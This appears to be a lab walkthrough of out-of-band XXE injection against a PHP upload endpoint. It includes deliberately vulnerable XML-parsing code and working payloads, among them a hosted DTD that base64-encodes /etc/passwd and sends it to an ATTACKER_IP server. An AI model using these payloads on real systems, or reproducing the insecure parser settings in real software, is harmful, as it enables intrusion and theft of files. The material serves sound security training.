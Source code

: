 ```php
libxml_disable_entity_loader(false);
$xmlData = file_get_contents('php://input'); 

$doc = new DOMDocument();
$doc->loadXML($xmlData, LIBXML_NOENT | LIBXML_DTDLOAD);

$links = $doc->getElementsByTagName('file');

foreach ($links as $link) {
    $fileLink = $link->nodeValue;
    $stmt = $conn->prepare("INSERT INTO uploads (link, uploaded_date) VALUES (?, NOW())");
    $stmt->bind_param("s", $fileLink);
    $stmt->execute();
    
    if ($stmt->affected_rows > 0) {
        echo "Link saved successfully.";
    } else {
        echo "Error saving link.";
    }
    
    $stmt->close();
}
```

The code above doesn't return the values of the submitted XML data. Hence, the term Out-of-Band since the exfiltrated data has to be captured using an attacker-controlled server. You can use Python's http.server module, although there are options out there, like Apache or Nginx.
```shell-session
user@tryhack $ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

Upload a file in the application and monitor the request that is sent to `submit.php` using your Burp. Forward the request below to Burp Repeater.
	![](Pasted%20image%2020241220120014.png)

Using the payload below, replace the value of the XML file in the request and resend it.
```shell
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://{ATTACKER_IP}:1337/" >]>
<upload>
	<file>
		&xxe;
	</file>
</upload>
```

![](Pasted%20image%2020241220120112.png)

After sending the modified HTTP request, the Python web server will receive a connection from the target machine. The establishment of a connection with the server indicates that sensitive information can be extracted from the application.
	![](Pasted%20image%2020241220120129.png)

We can now create a DTD file that contains an external entity with a PHP filter to exfiltrate data from the target web application.

Save the sample DTD file below and name it as `sample.dtd`. The payload below will exfiltrate the contents of `/etc/passwd` and send the response back to the attacker-controlled server:
```shell
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
%oobxxe;
```

## **DTD Payload Explained**
The DTD begins with a declaration of an entity `%cmd` that points to a system resource. The **`%cmd`** entity refers to a resource within the PHP filter protocol `php://filter/convert.base64-encode/resource=/etc/passwd`.
	  The **`%oobxxe`** entity contains another XML entity declaration, `exfil`, which has a system identifier pointing to the attacker-controlled server. It includes a parameter named data with `%cmd`, representing the Base64-encoded content of `/etc/passwd`. When `%oobxxe;` is parsed, it creates the `exfil` entity that connects to an attacker's server (`http://ATTACKER_IP:1337/`). The parameter `?data=%cmd` sends the Base64-encoded content from `%cmd`.

Go back to the repeater and change your payload to:
```shell
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE uploadDTD SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
<upload>
    <file>
	    &exfil;
	</file>
</upload>
```
which means
```shell
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE upload [
  <!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
  <!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
  %oobxxe;
]>
<upload>
	<file>
	  &exfil;
	</file>
</upload>
```
stack is:
```shell
[
  upload,
  %cmd,
  %oobxxe,
  exfil -> SYSTEM 'http://...data=php://filter...'
]
```

![](Pasted%20image%2020241220120911.png)

Resend the request and check your terminal. You will receive two (2) requests. The first is the request for the sample.dtd file, and the second is the request sent by the vulnerable application containing the encoded /etc/passwd.
	![](Pasted%20image%2020241220120930.png)
Decoding the exfiltrated base64 data will show that it contains the base64 value of /etc/passwd.
	![](Pasted%20image%2020241220120950.png)


